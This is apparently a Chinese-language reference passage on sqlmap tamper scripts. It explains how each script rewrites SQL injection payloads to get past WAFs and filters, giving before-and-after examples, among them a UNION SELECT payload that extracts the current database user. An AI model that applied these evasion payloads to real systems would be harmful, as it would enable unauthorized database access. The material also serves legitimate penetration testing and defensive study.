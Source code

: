 #### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1\
测试通过数据库：MySQL 4.0.18/5.0.22\
作用：在每个关键字前添加mysql版本注释\
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`\
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### **randomcomments.py**

适用数据库：ALL\
作用：用注释符分割sql关键字\
使用脚本前：`tamper('INSERT')`\
使用脚本后：`I/**/N/**/SERT`

#### **ifnull2ifisnull.py**

适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)\
测试通过数据库：MySQL 5.0 and 5.5\
作用：将类似于`IFNULL(A, B)`替换为`IF(ISNULL(A), B, A)`，绕过对`IFNULL`的过滤\
使用脚本前：`tamper('IFNULL(1, 2)')`\
使用脚本后：`IF(ISNULL(1),2,1)`

#### **percentage.py**

适用数据库：ASP\
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0\
作用：在每个字符前添加一个`%`\
使用脚本前：`tamper('SELECT FIELD FROM TABLE')`\
使用脚本后：`%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E`

### 绕过符号检测

#### **apostrophemask.py**

适用数据库：ALL\
作用：将引号替换为utf-8，用于过滤单引号\
使用脚本前：`tamper("1 AND '1'='1")`\
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **between.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0\
作用：用`NOT BETWEEN 0 AND #`替换`>`\
使用脚本前：`tamper('1 AND A > B--')`\
使用脚本后：`1 AND A NOT BETWEEN 0 AND B--`

#### **greatest.py**

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0\
作用：将`>`替换为GREATEST，绕过对`>`的过滤\
使用脚本前：`tamper('1 AND A > B')`\
使用脚本后：`1 AND GREATEST(A,B+1)=A`
